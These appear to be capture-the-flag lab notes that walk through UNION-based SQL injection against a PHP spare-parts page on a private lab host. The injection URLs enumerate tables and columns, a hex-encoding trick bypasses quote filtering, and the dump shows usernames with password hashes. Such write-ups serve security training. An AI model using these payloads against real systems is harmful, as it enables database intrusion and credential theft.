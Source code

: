 http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(table_name),5,6,7%20from%20information_schema.tables%20where%20table_schema=%27BlackMArket%27--%20---%20-

#### Specifying each DB

http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(table_name),5,6,7%20from%20information_schema.tables%20where%20table_schema=%27BlackMarket%27--%20-
![[Pasted image 20240316081509.png]]
### Columns Enumeration
#### For *flag* table:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(column_name),5,6,7%20from%20information_schema.columns%20where%20table_schema=%27BlackMarket%27%20and%20table_name=%27flag%27--%20-

![[Pasted image 20240316081719.png]]
If string *flag* is not permitted to be used, we can always change it by his hexadecimal value:

`echo -n "flag" | xxd`
>00000000: 666c 6167                                flag

We add 0x666c6167 without using *'* we get same result **useful to bypass special character sanitization**:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(column_name),5,6,7%20from%20information_schema.columns%20where%20table_schema=%27BlackMarket%27%20and%20table_name=0x666c6167--%20-

![[Pasted image 20240316090404.png]]
#### For *user* table:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(column_name),5,6,7%20from%20information_schema.columns%20where%20table_schema=%27BlackMarket%27%20and%20table_name=%27user%27--%20-

### Column's information dump
#### For flag table:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(name,%22:%22,%20information),5,6,7%20from%20BlackMarket.flag--%20-}

By using a URL decoder:
`http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(name,":", information),5,6,7 from BlackMarket.flag-- -`

![[Pasted image 20240316085745.png]]
#### For user table
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(username,0x3a,password),5,6,7%20from%20BlackMarket.user--%20- *we use 0x3a as a hex value for ":"*
>admin:==cf18233438b9e88937ea0176f1311885==,user:0d8d5cd06832b29560745fe4e1b941cf,supplier:99b0e8da24e29e4ccb5d7d76e677c2ac,jbourne:28267a2e06e312aee91324e2fe8ef1fd,bladen :cbb8d2a0335c793532f9ad516987a41c
